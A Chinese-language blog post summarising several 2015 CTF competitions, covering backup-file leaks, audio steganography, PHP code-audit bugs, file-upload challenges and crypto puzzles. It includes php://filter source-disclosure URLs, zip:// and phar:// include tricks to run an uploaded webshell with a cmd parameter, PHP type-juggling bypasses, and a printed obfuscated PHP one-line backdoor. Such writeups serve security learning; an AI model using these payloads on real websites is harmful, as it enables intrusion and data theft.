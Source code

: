 title: ctf近期总结
date: 2015-06-11 20:02:13
tags:
- Blogs
- ctf
categories:
- Blogs
---
这几个月参加了几个ctf比赛，包括360杯，强网杯，cuit，这几次的比赛都给我很多帮助，现在做一点儿总结...

<!--more-->
# writeup #
先放下这3个比赛的writeup，以供以后需要的时候查阅。
[第三届360信息安全大赛writeup](http://bobao.360.cn/ctf/learning/138.html)
强网杯writeup： **https://github.com/JayvicWen/CTF/tree/master/2015/Qiangwang%20Cup%20(强网杯)/writeup**
[cuit比赛writeup](http://sw0rd.net/?p=160)
# 备份文件泄露 #
在这次的比赛中包括360杯cuit都多次考到了备份文件泄露漏洞，下面是我这几次遇到的漏洞。
- Linux : xxx.php　—> xxx.php~ || .xxx.php.swp
- bak的后缀 —> xxx.xxx.bak
- 有时候还可以试试压缩文件 —> xxx.rar || xxx.zip
- 还有就是这次遇到MAC系统中的 ‘.DS_Store’ —> 这是个单独的文件就比如xxx/xxx/.DS_Store

# 音频隐写 #
这次强网杯碰到了这类有意思的题目，图片隐写就不多说了，这里讲讲音频隐写，这类题目由于接触过少而且难度参差不齐，所以很多东西都是比较新的，其中解法新颖...
1.第一种是百度的时候无意间看到的一类题型，flag隐藏的频率中，大概的做法就是找到音乐中不合理的地方，然后放大就可以发现，很明显发现这次题并不是这样的。
2.第二种和图片隐写类似，相当于把flag或者提示信息放在音乐中，把ascii转化为二进制然后插入到音乐中，这类方式一般难以发现，因为音乐一般信息量巨大，甚至1秒的数据就可以超过图片，这类题目大体的做法是找00，从空信息中间寻找问题，难度过高，这里就不赘述了。
3.最后就是这次题目的做法，想法相当好，题目首先拖到audacity，从频率分析中可以看到高频区有很明显的问题。
![](/img/ctf0611/1.bmp)
切换的频谱图模式，看到高频段有明显的小段。writeup告诉我们，这里按照0.1+0.4*x秒的模式翻译成二进制得到一些字符，仔细分析可以发现每8bit倒序一下得到flag。

# 代码漏洞（代码审计）#
这几次的ctf常常能遇到一类web题目，是关于php的一些漏洞...
1.首先是php4fun上的一道题目，被强网杯拿出来用。
```
<?php

//TODO: connect to DB 

$id = $_GET['id'];

//TODO: sqli filter

$secretId = 1024;
if($id == $secretId){
    echo 'Invalid id ('.$id.').';
}
else{
    $query = 'SELECT * FROM notes WHERE id = \''.$id.'\';';
    $result = mysql_query($query,$conn);
    $row = mysql_fetch_assoc($result);

    echo "notes: ".$row['notes']."</br>";
}
?>
```
这里我们利用PHP和MySQL的精度不同可以使得$id == $secretId的判断为false的同时SQL又能取到id为1024的记录，即我们只要传id=1024.00000001(具体几个0不重要，多了少了都不会爆flag的)

2.第二个是360的题目，题目打开是一张图片，按照360的鸟性，直接拿去看信息，果然看到一串由**-.**构成的东西，这个是摩斯码，拿去解码后得到源码。
```
<?php
    $a= "0.1";
    $b= $_GET['b'];
    if($b! = '' )
    {
        if(is_array  ($b))
        {
            echo "nokey!";
            exit;
        }
        else if(!is_numeric ($b ))
        {
            $c   = (int)(($a + $b  ) * 10 );
            if  ($c   == "8" && $b  [10 ] == false )
            {
                echo   "flag ";
            }
            else
            {
                echo  "nokey ";
                exit  ;
            }
        }
        else {echo  "nokey ";}
    }
    else {echo  "no  ";}
?>
```
分析源码知道要满足b不是数字不是数组，然后a+b为8且第十位什么都没有，构造b=0.7b，得到flag，现在也不知道为什么后面的字母会被忽略。

3.数据库查询的逻辑漏洞
这里是卡死了无数人的360杯web20，文章的原址是[遇到一个有趣的逻辑漏洞](https://www.leavesongs.com/PENETRATION/findpwd-funny-logic-vul.html)

# 文件上传 #
由于文件上传之前很少接触到，这里强网杯的俳句分析系统是接触的第一个文件上传，这道题是模仿CodeGate 2015 的猫头鹰。
翻一翻页面发现url有形如/index.php?page=[upload|view]，page的参数可以是链接，于是用php filter来获取源代码
```
/index.php?page=php://filter/read=convert.base64-encode/resource=index
/index.php?page=php://filter/read=convert.base64-encode/resource=main
/index.php?page=php://filter/read=convert.base64-encode/resource=view
/index.php?page=php://filter/read=convert.base64-encode/resource=upload
```
index.php中有这么一串代码
```
$inc=sprintf("%s.php", $p);
include($inc);
```
那么无法用%00截断.php，这样无法直接传.tx，于是用压缩文件绕过这个，这里有两个常用的封装归档协议。
- zip://php.zip#test
- phar://php.zip/test
这里php.zip为你上传的文件，后面的test的是压缩文件中你所加入一句话的test.php
源码中看到地址，然后使用中国菜刀，用**/index.php?page=phar://upload_paiju/xxxxxxx.txt/a**来成功include，然后是各种列目录，然后发现/srv/flag
使用**/index.php?cmd=print_r(file_get_contents('/srv/FLAG'));&page=phar://./upload_paiju/xxxxxxx.txt/a**拿到flag

# 加密解密 #
这次遇到好几个很特别的加密解密题目，尤其是360脑洞杯，这里也小小做个总结。
很多题目可能都是字符替换，这样就要计算频率，基本都是拖入这个[quipqiup](http://quipqiup.com/)分析。
1.强网杯的替换方式为前后不一致，单独分析就能得到答案，也可以通过判断关键字符脑洞获得答案。
2.360杯的第一题加密比较特殊，使用了键盘上的字符顺序，按个分析既可得到答案。
3.360杯web20，从服务器上下载一个奇怪的php文件，答案后发现是base64+gzinflate加密，把其中的eval换成echo，看到加密前的代码：
```
${("#"^"|").("#"^"|").("#"^"|")}=("_"^"=").("!"^"`").("( "^"{").("~"^";").'6'.'4_'.("{"^"?").("~"^";").("?"^"|").("/"^"`").("{"^"?").("~"^";"); ${("#"^"|").("#"^"|")}=("!"^"`").("( "^"{").("("^"[").("~"^";").("|"^".").("*"^"~"); ${("#"^"|").("#"^"|")}(${("#"^"|").("#"^"|").("#"^"|")}("YXNzZXJ0X29wdGlvbnMoQVNTRVJUX1dBUk5JTkcsIDApOw==")); ${("#"^"|").("#"^"|")}(${("#"^"|").("#"^"|").("#"^"|")}(("`"^":").("#"^"{").("&"^"|").("("^"@").("_"^"=").("~"^"=").("]"^":").("+"^"@").("|"^"$")."1".("}"^"?").("+"^"{").("|"^")")."1".("}"^"/").("?"^"]").("<"^"_").("$"^"`").("|"^".").("."^"[").("`"^"/").("("^"~")."96".("`"^"-").("("^"~")."96".("["^":").("{"^"?").("`"^".").("^"^"+").("/"^"`").("("^"~")."9".("_"^".").("-"^"`").("}"^"%").("{"^"-").("@"^"&").(")"^"|")."2".("]"^":").("#"^"[").("$"^"|")."0".("/"^"@").("#"^"[").("`"^"-")."10".("^"^".")));
```
明显看到有一串base64，解密得到
```
assert_options(ASSERT_WARNING, 0);
```
发现这句话是让assert不发出警告，直接去掉这串代码运行，直接爆出一句话木马的密码，也可以把后面一段echo输出，得到用base64解密得到flag。
4.360杯web40，这题很特殊，一般人看到一串只有大写字母和数字=构成的可能会想到是base32，但这题并不是这样的，我们用base64解密后，找出不可打印字符，枚举大小写后得到8个符合的字符串，提交就能得到flag。
5.还有一类题目是给一个镜像文件，这里也没有什么特别的办法，只能使用DiskGenius的恢复文件功能进行回复。

# 代码去重 #
在这次的ctf比赛中遇到这一类比较有意思的问题，ctf中，你往往会得到一串比你想象中复杂的多的代码，例如jsfuck，前面提到的摩斯电码，还有上面的加密。
360杯中网络协议20就得到这样一段很奇怪的代码。去重只有直接得到了flag。